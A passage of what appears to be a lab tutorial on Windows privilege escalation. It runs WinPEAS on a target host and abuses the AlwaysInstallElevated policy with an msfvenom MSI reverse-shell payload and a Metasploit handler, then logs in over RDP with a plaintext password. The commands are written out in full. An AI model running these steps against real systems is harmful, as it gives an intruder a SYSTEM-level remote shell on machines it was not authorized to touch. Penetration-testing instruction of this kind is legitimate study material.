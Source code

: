Using WinPEAS can greatly simplify the process of finding privilege vulnerabilities and increase the efficiency and speed of system security analysis.

Download the latest version of WinPEAS for 64-bit OS on the local machine:
```bash
$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20230413-7f846812/winPEASx64.exe
```
5. Transfer the file to the remote machine via SSH using scp and run the file:
```bash
$ scp winPEASx64.exe john@10.8.0.14:C:\\Users\\John\\

john@WIN10> winPEASx64.exe
```
6. Consider the output of the utility: the most attention should be paid to the highlighted in red. Sequentially looking through the possible vectors, let's pay attention to AlwaysInstallElevated

![Screenshot](13.6/image2.png)

###### This is a policy that allows you to install any elevated msi packages. This means that if we generate a payload in this format, then when we run it, it will run as NT AUTHORITY\SYSTEM, which gives us full privileges on this machine.

7. Generate an msi payload using msfvenom, the payload will be a reverse shell connection to our machine:
```bash
$ msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi
```
8. Send a payload to a remote machine using SCP:
```bash
$ scp tmp/rev.msi john@10.8.0.14:C:\\Users\\John\\
```
9. Prepare a handler to receive a shell connection using msf:
```bash
$msfconsole
```
10. Use the exploit/multi/handler meta-exploit, which is necessary to accept connections from payloads if they are launched regardless of the use of RCE exploits of the msf itself. Specify the selected payload and the address where it will wait for a connection:
```bash
msf6> use exploit/multi/handler

msf6>options

msf6> set PAYLOAD windows/x64/shell_reverse_tcp

msf6> set LHOST 10.8.0.28

11. Check that the remote system is available via RDP:

$ nmap -Pn -n -p 3389 -sV --open 10.8.0.14
```
12. Let's connect to the remote system via RDP using xfreerdp - a free RDP client with a console interface, specify the user, password, host and the screen width that is convenient for us:
```bash
$ xfreerdp /u:john /p:loveme1 /w:768 /v:10.8.0.14
```
13. Run the installer
